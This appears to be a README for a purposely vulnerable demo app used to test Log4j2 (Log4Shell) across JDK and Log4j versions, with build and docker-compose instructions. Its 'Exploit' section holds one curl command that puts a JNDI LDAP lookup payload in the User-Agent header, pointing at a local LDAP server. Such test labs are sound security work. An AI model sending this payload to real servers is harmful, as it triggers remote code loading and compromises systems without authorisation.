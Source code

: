 # Example App for log4j2 testing purposes

### Setup

You will need to install:

```
docker
docker-compose
```

If you want to run the resulting JAR files directly on your host, you will need to install JDK8 or JDK11 depending on
what testing is to be performed. 

> Note: Currently the project targets only those JDK versions

### Build


> NOTE on versions:
> 
> There is a huge number of combinations of JVM version and Log4j versions.  By default, the build scripts and the
> docker-compose setup uses a subset of these combinations.  The subset is JVM 8/11 and Log4j vulnerable versions, but
> the last Z for each minor (i.e., 2.15.0, 2.14.1, 2.13.1, etc).
>
> If you want to build and run ALL the versions use the `build_all.sh` and `docker-compose-all.yml` files in place of the
> build.sh and docker-compose.yml files mentioned in the details below.

You first need to build all the JAR files (if desired, test single versions see `Build JAR for single version`). 

```
bash -x ./build/build.sh
```

> NOTE: Customize for the versions you want to create


If you want to run a build manually; this is the command

```
LOG4J_VERSION=2.6.1 mvn clean assembly:assembly -DdescriptorId=jar-with-dependencies
```

You must set the LOG4J_VERSION env var or the pom is invalid


### Run

Manually running one version on a host directly: 

> NOTE: This assumes you have the proper JRE version installed!

```
PORT=8080 java -jar <jar> # You must set the PORT or it will error!
```

Running inside of a docker container (see docker-compose.yml for additional info)

```
docker-compose [-f docker-compose.yml] up [image]
```


### Exploit

Send a properly formated jdni:ldap message as your user agent, example:

```
curl 127.0.0.1:8080/ -H 'User-Agent: ${jndi:ldap://127.0.0.1:1389/Exploit}'
```


### Build JAR for single version

Where the first argument is the Java version and the second is the LOG4J_VERSION.  Once built, and individual version
can be started with docker-compose via `docker-compose up log4j_1.8_2.15.0` (see docker-compose.yml for configured
versions).

```
bash -x ./build/build_one.sh 1.8 2.15.0
```
